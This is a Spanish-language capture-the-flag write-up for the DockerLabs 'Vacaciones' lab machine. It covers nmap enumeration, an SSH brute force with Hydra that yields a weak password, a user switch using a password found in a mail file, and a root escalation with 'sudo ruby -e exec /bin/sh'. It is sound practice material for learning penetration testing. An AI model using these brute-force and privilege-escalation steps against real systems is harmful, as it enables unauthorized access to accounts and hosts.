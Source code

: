 ```yaml
---
layout: single
title: Vacaciones - DockerLabs
excerpt: "Maquina Linux realizando intrusion por ataque de fuerza bruta al protocolo SSH"
date: 2024-05-22
classes: wide
header:
  teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Fuerza Buta
  - Sudo
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta y una escalada de privilegios sencilla

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

```css
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
ssh-hostkey:
   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
_http-title: Site doesn't have a title (text/html).
_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Solamente estan abiertos 2 puertos el 22 donde corre el servicio `SSH` y el 80 donde corre el servicio `http` con Apache, voy a ver que en el servidor web coloco la url `http://172.17.0.2`

![000Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/000Vacaciones.png)

carga un página en blanco, voy a revisar el código fuente presioando las teclas `ctrl + u`

![0001Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/001Vacaciones.png)

veo un mensaje, el cual me sirve para enumerar 2 posibles usuario Juan y Camilo, por lo tanto voy a realizar un ataque de fuerza bruta con estos usuario al servicio `SSH`.

Primero voy a crear un listado de usuarios con el editor de texto `nano` al que voy a llamar `usuarios.txt` y le voy agregar los posibles usuario que encontré anteriormente ahora si voy a realizar el ataque de fuerza bruta con `Hydra`

![002Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/002Vacaciones.png)

```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -L        | ruta de lista de usuarios          |
| -P        | ruta del diccionario de contraseña |
| -t        | cantidad de hilos                  |
| ssh       | protocolo a realizar fuerza bruta  |

Consigo la contraseña del usuario camilo.

```css
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

# 2- Intrusion

Momento de realizar la conexión por SSH con las credenciales recién adquiridas

```bash
ssh camilo@172.17.0.2
```

procedo a buscar el correo que Juan le había dejado a Camilo usando la herramienta find

```bash
find / -iname *correo* 2>/dev/null
```

| parametro   | descripcion                                      |
| ----------- | ------------------------------------------------ |
| -iname      | para no distinguir entre mayúsculas y minúsculas |
| \*          | caracter comodin                                 |
| 2>/dev/null | para no mostrar los errores en pantalla          |

me arroja como resultado la siguiente ruta `/var/mail/correo.txt`

![004Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/004Vacaciones.png)

ejecuto `su juan` para cambiar al usuario juan e ingreso la contraseña que me indicó en el correo `2k84dicb`

# 3- Escalada de Privilegios

Ahora como Juan busco como escalar privilegios con `sudo -l` como resultado veo que tengo permisos para ejecutar el binario `ruby`

![005Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/005Vacaciones.png)

Me apoyo de la pagina [GTFObins](https://gtfobins.github.io/) para ver como escalar privilegios

ejecutando el siguiente comando

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Listo conseguí escalar privilegios, ahora soy el usuario root

![006Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/006Vacaciones.png)
